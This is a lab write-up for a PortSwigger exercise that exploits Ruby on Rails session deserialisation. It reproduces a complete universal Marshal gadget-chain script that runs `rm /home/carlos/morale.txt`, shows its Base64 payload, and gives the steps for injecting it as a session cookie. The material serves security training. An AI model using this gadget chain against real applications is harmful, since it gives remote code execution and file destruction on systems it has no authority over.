 # Exploiting Ruby deserialisation using a documented gadget chain

## Description

[This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-ruby-deserialization-using-a-documented-gadget-chain) uses a serialisation-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework. 

## Reproduction and proof of concept

1. Log in with `wiener:peter`. The session cookie contains a serialised ("marshaled") Ruby object. Send a request containing this session cookie to Burp Repeater.
2. Browse the web to find the [Universal Deserialisation Gadget for Ruby 2.x-3.x](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) by vakzz on devcraft.io. Copy the final script for generating the payload.
3. Modify the script:
* Change the command that should be executed from `id` to `rm /home/carlos/morale.txt`.
* Replace the final two lines with `puts Base64.encode64(payload)`, and the for that required `require "base64"` just above. This ensures that the payload is output in the correct format for use with the lab.

```text
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

require "base64"
payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```

3. Save it, for example, in **Downloads** and name it `gadget.rb`, then run the script (Ruby is pre-installed in Kali):

```text
$ ruby gadget.rb
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2Rf
aWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxl
LnR4dAY7DFQ7EjoMcmVzb2x2ZQ==
```

Clean it up:

```text
$ echo "BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06                                           
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2Rf
aWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxl
LnR4dAY7DFQ7EjoMcmVzb2x2ZQ==" | tr -d "\n\r"
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ== 
```

5. Copy the resulting Base64-encoded object.
4. In Burp Repeater, replace the Base64 session cookie in the Inspector with the malicious one just created.
5. Send the request to solve the lab.

![Serialisation](/_static/images/ser9.png)

## Exploitability

An attacker will need to log in to `wiener:peter`; find the documented exploit and adapt it to create a malicious serialised object containing a remote code execution payload; and then pass this object into the website to delete the `morale.txt` file from Carlos's home directory. 
